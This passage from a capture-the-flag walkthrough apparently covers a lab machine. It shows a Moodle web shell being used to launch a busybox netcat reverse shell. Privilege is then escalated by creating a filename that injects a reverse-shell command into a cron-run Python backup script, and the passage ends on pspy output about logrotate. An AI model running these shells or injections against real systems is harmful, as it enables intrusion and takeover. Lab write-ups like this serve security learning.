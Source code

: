 listener:
```bash
python3 -m pwncat -lp 7777 
```
```bash
http://10.10.23.251:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=busybox%20nc%2010.8.98.143%207777%20-e%20bash
```
We're in, it's time to do some manually recognition

### Privesc User:

The command `cat /etc/crontab` give this results:
```bash
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
```
a cronjob run by plot_admin who execute a bash script with the following code:

> we can read in plot_admin's home
```bash
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```
This script copy all files from /filedir to .moodle_backup, the only thing we have rights is __"/var/www/uploadedfiles/filedir/"__.

The idea is to do command injection with a file called __";$(busybox nc <ip> <port> -e bash=);"__ because in the function __"os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)"__ at the file variable we can the possibility to inject it with the following commands:
```bash
pwncat-cs -lp 8888 #listener
```

```bash
cd /var/www/uploadedfiles/filedir
touch -- ';$(busybox nc 10.8.98.143 8888 -e bash);'
```

If we wait one minute we will have a revshell as plot_admin and we can retrieve the user flag.

### Privesc Root:

If we remember there was another cronjob run as root:
```bash
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
a cronjob that it saves the apache log in .logs_backup and change the owner for all log files we need a tool in order to go deeper in this situation:
```bash
chmod +x pspy
./pspy

2024/01/12 15:38:01 CMD: UID=0     PID=21509  | /bin/sh -c /usr/local/sbin/logrotate -f /etc/logbackup.cfg 
2024/01/12 15:38:01 CMD: UID=0     PID=21510  | /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
```
There is logrotate another command to investigate further:
```bash
```